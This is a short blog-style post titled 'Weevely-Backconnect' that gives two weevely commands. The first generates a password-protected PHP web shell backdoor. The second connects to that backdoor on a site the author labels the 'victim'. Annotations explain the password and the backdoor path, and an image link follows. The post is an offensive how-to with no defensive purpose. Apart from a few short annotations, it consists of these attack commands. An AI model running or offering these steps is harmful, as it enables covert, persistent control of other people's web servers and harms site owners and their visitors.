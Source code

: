 # Weevely-Backconnect
<blockquote class="tr_bq">
weevely generate 4848 /home/bibz/art/wee.php<br />
weevely http://jembut.com/wee.php 4848</blockquote>
<br />
*<br />
"4848" is password ur shell<br />
"jembut.com" victim<br />
&nbsp;"/home/bibz/art/wee.php" dir ur folder and backdoor after u created<br />
<br />
<div class="separator" style="clear: both; text-align: center;">
<a href="https://1.bp.blogspot.com/-bZ0WiJURswo/WAtvf-yCZzI/AAAAAAAABY4/70SjiYht5tMhBZsIie48UnGTJFBY5tgjgCLcB/s1600/pogi.png" imageanchor="1" style="clear: left; float: left; margin-bottom: 1em; margin-right: 1em;"><img border="0" height="358" src="https://1.bp.blogspot.com/-bZ0WiJURswo/WAtvf-yCZzI/AAAAAAAABY4/70SjiYht5tMhBZsIie48UnGTJFBY5tgjgCLcB/s640/pogi.png" width="640" /></a></div>
<br />
